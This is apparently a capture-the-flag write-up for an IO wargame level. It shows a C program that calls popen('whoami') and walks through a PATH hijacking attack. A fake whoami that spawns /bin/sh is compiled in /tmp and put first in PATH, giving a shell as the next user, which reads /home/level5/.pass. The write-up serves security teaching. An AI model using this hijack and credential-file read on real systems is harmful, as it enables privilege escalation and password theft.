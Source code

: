 1. Check out the source code in level04.c
```
//writen by bla
#include <stdlib.h>
#include <stdio.h>

int main() {
    char username[1024];
    FILE* f = popen("whoami","r");
    fgets(username, sizeof(username), f);
    printf("Welcome %s", username);

    return 0;
}
```

2. Doesn't look like we need a buffer overflow for this challenge, considering that we can't really control what goes into the username buffer. One thing we can control, though, is what bash thinks is the `whoami` binary. When a command line utility like `ls` or `cd` or `whoami` is called, bash searches through all the paths in the PATH environment variable for the matching binary. And we CAN control the PATH environment variable in our current bash session. So what we need to do is write our own little binary that calls one of the exec functions, compile it with the name whoami, then modify the PATH environment variable.

3. We need to find a directory where we have write access, and chances are that /tmp is probably writable. So we type `mkdir /tmp/ZZZ`. Now that we have somewhere to write, here's a sample file named whoami.c:
```
#include <unistd.h>

int main() {
    execl("/bin/sh", "sh", NULL);

    return 0;
}
```

4. Now we need to compile it:
```
level4@io:/tmp/ZZZ$ gcc -o whoami whoami.c
```

5. Modify the PATH environment variable:
```
level4@io:/tmp/ZZZ$ export PATH=/tmp/ZZZ:$PATH
level4@io:/tmp/ZZZ$ echo $PATH
/tmp/ZZZ:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```
Excellent, now when we type `whoami`, bash will first search our directory of `/tmp/ZZZ` and run our binary which calls `execl("/bin/sh", "sh", NULL);` and subsequently get us a shell as user level5.

6. Now we change directories back into /levels and run the level04 binary and watch what happens.
```
level4@io:/tmp/ZZZ$ cd /levels/
level4@io:/levels$ ./level04
sh-4.2$ cat /home/level5/.pass
Welcome [the password for level5]
```
